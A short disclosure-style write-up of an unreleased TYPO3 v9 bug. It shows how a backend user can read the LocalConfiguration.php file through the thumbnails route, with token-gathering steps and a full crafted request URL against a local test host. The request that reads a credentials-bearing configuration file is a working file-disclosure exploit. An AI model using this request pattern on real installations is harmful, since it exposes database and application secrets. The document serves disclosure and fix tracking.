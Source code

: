 # Retrieving LocalConfiguration.php

This issue has been addressed already and the bug was discovered
before having been released, see https://forge.typo3.org/issues/85875
& https://review.typo3.org/#/c/57943/

Replace XSRF token for `&token=` with correct value - you need to
have a valid backend user session.

In order to retrieve XSRF token, open `Web > Page` module, select
a page that contains text with image elements. Open the shown thumbnail
image in a new tab and reuse its `&token=` value.

```
http://typo3v9-hack.ddev.local/typo3/index.php
?route=%2Fthumbnails
&token=36040ecd8c603c15d02e00ab4cb3426f4be8827a
&fileIdentifier=typo3conf/LocalConfiguration.php
&processingInstructions%5Bwidth%5D=64
&processingInstructions%5Bheight%5D=64c
&processingInstructions%5Bcrop%5D=
```

## Security Vulnerability

Never was an issue for any released versions because it has been
discovered prior to being released.